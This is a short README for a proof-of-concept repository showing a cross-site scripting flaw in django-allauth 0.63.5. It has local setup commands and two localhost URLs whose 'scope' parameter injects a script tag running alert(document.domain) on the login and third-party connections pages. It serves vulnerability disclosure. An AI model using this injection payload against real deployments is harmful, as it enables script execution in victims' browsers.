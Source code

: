 # Proof of concept for a XSS vulnerability in django-allauth 0.63.5

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-allauth
$ cd poc-xss-django-allauth
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

**XSS in login page**

- While logged out, go to ``http://127.0.0.1:8000/accounts/login/?scope=</script><script>alert(document.domain)</script><script>``

**XSS in social connections page**

- Log in with the user you created.
- Go to ``http://127.0.0.1:8000/accounts/3rdparty/?scope=</script><script>alert(document.domain)</script><script>``
